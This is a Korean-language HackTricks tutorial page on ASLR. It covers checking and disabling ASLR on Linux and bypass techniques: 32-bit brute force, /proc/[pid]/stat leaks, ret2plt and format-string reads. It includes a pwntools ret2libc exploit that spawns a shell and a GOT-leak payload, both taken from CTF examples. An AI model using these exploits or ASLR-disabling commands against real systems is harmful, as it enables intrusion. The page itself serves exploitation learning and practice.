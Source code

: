 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**주소 공간 레이아웃 무작위화 (ASLR)**는 운영 체제에서 **시스템 및 애플리케이션 프로세스**가 사용하는 메모리 주소를 무작위화하는 보안 기술입니다. 이를 통해 공격자가 특정 프로세스와 데이터(예: 스택, 힙 및 라이브러리)의 위치를 예측하기가 훨씬 더 어려워지며, 특정 유형의 익스플로잇, 특히 버퍼 오버플로우를 완화합니다.

### **ASLR 상태 확인**

Linux 시스템에서 **ASLR 상태를 확인**하려면 `/proc/sys/kernel/randomize_va_space` 파일에서 값을 읽을 수 있습니다. 이 파일에 저장된 값은 적용되는 ASLR의 유형을 결정합니다:

* **0**: 무작위화 없음. 모든 것이 정적입니다.
* **1**: 보수적인 무작위화. 공유 라이브러리, 스택, mmap(), VDSO 페이지가 무작위화됩니다.
* **2**: 완전 무작위화. 보수적인 무작위화에 의해 무작위화된 요소 외에도 `brk()`를 통해 관리되는 메모리가 무작위화됩니다.

다음 명령어로 ASLR 상태를 확인할 수 있습니다:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR 비활성화**

ASLR를 **비활성화**하려면 `/proc/sys/kernel/randomize_va_space`의 값을 **0**으로 설정합니다. ASLR 비활성화는 일반적으로 테스트나 디버깅 시나리오 외에는 권장되지 않습니다. ASLR를 비활성화하는 방법은 다음과 같습니다:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
You can also disable ASLR for an execution with:  
ASLR를 비활성화하여 실행할 수도 있습니다:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR 활성화**

ASLR를 **활성화**하려면 `/proc/sys/kernel/randomize_va_space` 파일에 **2** 값을 기록하면 됩니다. 일반적으로 루트 권한이 필요합니다. 전체 무작위화를 활성화하려면 다음 명령어를 사용할 수 있습니다:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **재부팅 간 지속성**

`echo` 명령어로 만든 변경 사항은 일시적이며 재부팅 시 초기화됩니다. 변경 사항을 지속적으로 유지하려면 `/etc/sysctl.conf` 파일을 편집하고 다음 줄을 추가하거나 수정해야 합니다:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
`/etc/sysctl.conf`를 편집한 후, 다음 명령어로 변경 사항을 적용합니다:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **우회 방법**

### 32비트 무차별 대입

PaX는 프로세스 주소 공간을 **3 그룹**으로 나눕니다:

* **코드 및 데이터** (초기화된 및 초기화되지 않은): `.text`, `.data`, 및 `.bss` —> `delta_exec` 변수에서 **16 비트**의 엔트로피. 이 변수는 각 프로세스와 함께 무작위로 초기화되며 초기 주소에 추가됩니다.
* `mmap()`에 의해 할당된 **메모리** 및 **공유 라이브러리** —> **16 비트**, `delta_mmap`이라고 합니다.
* **스택** —> **24 비트**, `delta_stack`이라고 합니다. 그러나 실제로는 **11 비트**를 사용합니다 (10번째 바이트부터 20번째 바이트까지 포함), **16 바이트**에 정렬됩니다 —> 이로 인해 **524,288개의 가능한 실제 스택 주소**가 생성됩니다.

이전 데이터는 32비트 시스템에 대한 것이며, 감소된 최종 엔트로피는 ASLR을 우회할 수 있게 하여 익스플로잇이 성공적으로 완료될 때까지 실행을 반복할 수 있게 합니다.

#### 무차별 대입 아이디어:

* 쉘코드 앞에 **큰 NOP 슬레드**를 호스팅할 수 있을 만큼 큰 오버플로우가 있다면, 스택에서 주소를 무작위로 대입하여 흐름이 **NOP 슬레드의 일부를 넘어 점프할 때까지** 시도할 수 있습니다.
* 오버플로우가 그리 크지 않고 익스플로잇을 로컬에서 실행할 수 있는 경우, **환경 변수에 NOP 슬레드와 쉘코드를 추가하는** 옵션이 있습니다.
* 익스플로잇이 로컬인 경우, libc의 기본 주소를 무작위로 대입해 볼 수 있습니다 (32비트 시스템에 유용함):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 원격 서버를 공격하는 경우, **`libc` 함수 `usleep`의 주소를 무차별 대입으로 찾으려고 시도할 수 있습니다**, 인자로 10을 전달합니다 (예: 10). 만약 어느 시점에서 **서버가 응답하는 데 10초가 추가로 걸린다면**, 이 함수의 주소를 찾은 것입니다.

{% hint style="success" %}
64비트 시스템에서는 엔트로피가 훨씬 높아 이 방법이 불가능합니다.
{% endhint %}

### 로컬 정보 (`/proc/[pid]/stat`)

프로세스의 **`/proc/[pid]/stat`** 파일은 항상 모든 사용자가 읽을 수 있으며, **흥미로운** 정보가 포함되어 있습니다:

* **startcode** & **endcode**: 바이너리의 **TEXT** 위와 아래의 주소
* **startstack**: **스택** 시작 주소
* **start\_data** & **end\_data**: **BSS** 위와 아래의 주소
* **kstkesp** & **kstkeip**: 현재 **ESP** 및 **EIP** 주소
* **arg\_start** & **arg\_end**: **cli arguments** 위와 아래의 주소
* **env\_start** & **env\_end**: **env variables** 위와 아래의 주소

따라서, 공격자가 익스플로잇되는 바이너리와 동일한 컴퓨터에 있고 이 바이너리가 원시 인자에서의 오버플로우를 예상하지 않는다면, 대신 이 파일을 읽은 후 조작할 수 있는 **다른 입력**에서 오버플로우를 예상할 수 있습니다. 공격자는 **이 파일에서 일부 주소를 가져와 이를 기반으로 오프셋을 구성하여 익스플로잇을 수행할 수 있습니다**.

{% hint style="success" %}
이 파일에 대한 자세한 정보는 [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html)에서 `/proc/pid/stat`를 검색하여 확인하세요.
{% endhint %}

### 누출이 있는 경우

* **문제는 누출을 제공하는 것입니다**

누출이 주어지면 (쉬운 CTF 도전 과제), 이를 기반으로 오프셋을 계산할 수 있습니다 (예를 들어, 익스플로잇하는 시스템에서 사용되는 정확한 libc 버전을 알고 있다고 가정할 때). 이 예제 익스플로잇은 [**여기에서의 예제**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak)에서 발췌한 것입니다 (자세한 내용은 해당 페이지를 확인하세요):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

버퍼 오버플로우를 악용하여 **ret2plt**를 이용해 libc의 함수 주소를 유출할 수 있습니다. 확인해 보세요:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

ret2plt와 마찬가지로, 포맷 문자열 취약점을 통해 임의의 읽기가 가능하다면 GOT에서 **libc 함수**의 주소를 유출할 수 있습니다. 다음 [**예시는 여기에서 가져온 것입니다**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

ASLR를 우회하기 위해 스택 내 주소를 악용해 보세요:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
